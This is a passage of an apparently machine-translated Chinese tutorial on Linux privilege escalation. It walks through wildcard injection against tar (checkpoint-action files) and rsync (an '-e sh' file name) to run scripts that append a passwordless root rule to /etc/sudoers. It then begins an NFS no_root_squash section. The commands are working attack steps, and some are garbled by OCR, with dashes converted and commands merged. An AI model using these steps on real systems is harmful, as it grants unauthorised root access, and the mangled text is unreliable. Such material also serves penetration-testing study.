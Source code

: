 首先，我们将指定在归档一个文件之后，有一个检查点。稍后我们将对该检查点执行操作，但是现在我们仅告诉tar它存在。

让我们创建一个将注入标记的文件：

cd important-directorytouch — —checkpoint=1

**2**）编写恶意的**Shell**脚本

Shell脚本将/etc/sudoers在其后追加代码，这会使您变得更加无礼。

您需要添加到的行/etc/sudoers是my-user ALL=(root) NOPASSWD: ALL。

让我们创建shell脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell脚本应与通配符位于同一目录中。

请注意，我们将必须更改my-user为要成为sudoer的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当tar到达在步骤＃1中指定的检查点时，它应运行在步骤＃2中创建的shell脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

**4**）**root**

等待，直到cron执行了脚本并通过键入以下内容获得root特权：

sudo su

## **rsync**

Rsync是“快速，通用，远程（和本地）文件复制工具”，在linux系统上非常常见。

与rsync一起使用的一些有趣的标志是：

-e, —rsh=COMMAND specify the remote shell to use —rsync-path=PROGRAM specify the rsync to run on remote machine

我们可以使用该-e标志来运行所需的任何Shell脚本。让我们创建一个shell脚本，它将我们添加到sudoers文件中：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > shell.sh

现在让我们注入将运行我们的shell脚本的标志：

touch — “-e sh shell.sh”

## **0x009 Linux提权-NFS权限弱**

如果您在linu服务器上具有低特权shell，并且发现服务器中具有NFS共享，则可以使用它来升级特权。但是成功取决于它的配置方式。

## **目录**

1. 1. 什么是NFS？
   2. 什么是root_sqaush和no_root_sqaush？
   3. 所需的工具和程序文件。
   4. 利用NFS弱权限。
